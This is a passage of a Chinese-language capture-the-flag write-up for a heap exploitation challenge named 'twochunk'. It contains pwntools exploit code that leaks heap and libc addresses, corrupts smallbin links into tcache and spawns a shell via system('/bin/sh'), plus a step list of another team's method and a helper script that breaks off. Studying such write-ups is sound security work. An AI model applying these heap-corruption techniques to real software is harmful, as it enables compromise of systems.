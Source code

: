 ```python
free(0)
add(0,0x188)
add(1,0x99)
free(0)
add(0,0xf8)
free(0)
add(0,0x99)
free(1)
free(0)
add(0,23333)
show(0)
heap=u64(p.read(8))
log.warning(hex(heap))
pay='\0'*0xf8+flat(0x91,heap+0xf0,0x23333000-0x10)
edit(0,pay)
add(1,0x88)
cmd(5)
p.readuntil("age:")
base=u64(p.read(6)+'\0\0')-(0xfff7fbfc6020-0x7ffff7dd5000)
log.warning(hex(base))
cmd(6)
libc.address=base
p.sendafter(": ",flat(libc.sym['system'],0,0,0,0,0,libc.search("/bin/sh").next()))
#gdb.attach(p,'''
#''')
cmd(7)
p.interactive()
```

## 2
赛后其他队伍的做法之一.Null tql!
这题有个比较特殊的地方是我们知道了一些地址:0x2333000.而且能在上面写一些东西.控制fd,bk就像我们刚学unlink的时候一样..我们可以控制unlink使之链入`tcache[0x80]`,利用malloc0x80获得然后就可以走后门了.
主要的过程:
0. modify fd,bk of 0x23333000 : fd=随便 bk=0x23333030-0x10
1. show to leak heap
2. set smallbin[0x90]: A --> B --> 0x23333000-0x10
3. set tcache[0x90](5) 
4. calloc 0x88
5. leak libc
6. malloc 0x80
7. system('/bin/sh')


```python
from pwn import *
#context.log_level='debug'
context.terminal = ['tmux', 'splitw', '-h']
context.arch='amd64'
def cmd(c):
	p.sendafter(": ",str(c))
def add(idx,size):
	cmd(1)
	cmd(idx)
	cmd(size)
def free(idx):
	cmd(2)
	cmd(idx)
def show(idx):
	cmd(3)
	cmd(idx)
def edit(idx,c):
	cmd(4)
```

[0]: https://github.com/n132/Watermalon/tree/master/Hitcon_2019/one_punch_man
[1]: https://github.com/n132/Watermalon/tree/master/%E9%AB%98%E6%A0%A1%E6%88%98%E7%96%AB_2020/twochunk
[2]: https://xz.aliyun.com/t/7192
[3]: ch4r1l3.github.io